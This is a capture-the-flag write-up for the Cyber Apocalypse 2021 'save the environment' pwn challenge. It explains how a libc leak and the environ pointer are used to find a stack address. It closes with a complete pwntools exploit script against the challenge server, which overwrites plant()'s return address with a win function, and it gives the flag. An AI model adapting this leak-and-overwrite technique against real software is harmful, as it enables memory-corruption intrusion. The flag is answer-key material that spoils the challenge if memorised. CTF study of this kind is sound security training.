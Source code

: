 ```yaml
---
title: save the environment
date: 2021-04-23
categories: [pwn]
tags: [cyberapocalpyse2021]
toc: false
---
```


#### Notes:
- Binary comes with all mitigations besides PIE
- This program asks you if you want to plant or recycle
- When you select recycle, you are asked if you've recycled before, if not,
  then a global variable called rec_count is incremented. 
- After recycling 5 times, the program gives you a printf leak
- After recycling 10 times, you are able to enter an address of your own to leak using puts(strtoull(&buffer, nullptr, 0)). 
- plant() allows us to overwrite a value at an address using strtoull()
- There is a function called hidden_resources() that is basically our "win" function. The goal is to return to this function after plant(). 

#### Plan:
- Run program with a distinct environment variable (more detail in later steps)
- Recycle 5 times to get our printf leak
- Use printf leak to get content of environ variable so we can access the environment variables.
- Reycle 5 more times to get our stack leak. We can use environ to leak a pointer to our environment variable
- Using the leaked stack address we can find the offset to the return address of plant() and overwrite it with our "win" function

#### recycle():

![Snippet of recycle()](/assets/img/cyberapoc/environment/recycle.png)

#### plant():

![Snippet of plant()](/assets/img/cyberapoc/environment/plant.png)

#### form():

![Snippet of form()](/assets/img/cyberapoc/environment/form.png)

#### PoC:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template environment
from pwn import *
import os
# Set up pwntools for the correct architecture
exe = context.binary = ELF('environment')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw, env={'ICEENV':'AAAAAAAAAAAAAA'})
    else:
        return process([exe.path] + argv, *a, **kw, env={'ICEENV': 'AAAAAAAAAAAAAA'})

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x401341
b *0x40149a
b *0x40147a
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

#io = start()
io = remote('178.62.14.240', 30384)
win = '0x4010b5'

def plant(addr1, addr2):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(addr1)
    io.recvuntil('> ')
    io.sendline(addr2)

def recycle():
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline('n')


for _ in range(5):
    recycle()

io.recvuntil('gift: ')
printf_leak = int(io.recvline()[5:19], 16)
print('Printf Leak: ', hex(printf_leak))

for _ in range(5):
    recycle()

io.recvuntil('> ')

libc_base = printf_leak - 0x064f70
print('Libc base: ', hex(libc_base))

environ = libc_base + 0x3ee098

io.sendline(hex(environ))
leak = int.from_bytes(io.recvline()[4:16], 'little')
leak = '0x' + str(hex(leak))[3:16]
leak_addr = int(leak, 16)

print('Targeted environ: ', hex(environ))
print('Second Leak: ', hex(leak_addr))

rip_addr = leak_addr - 288

plant(hex(rip_addr), win)

io.interactive()

# CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
```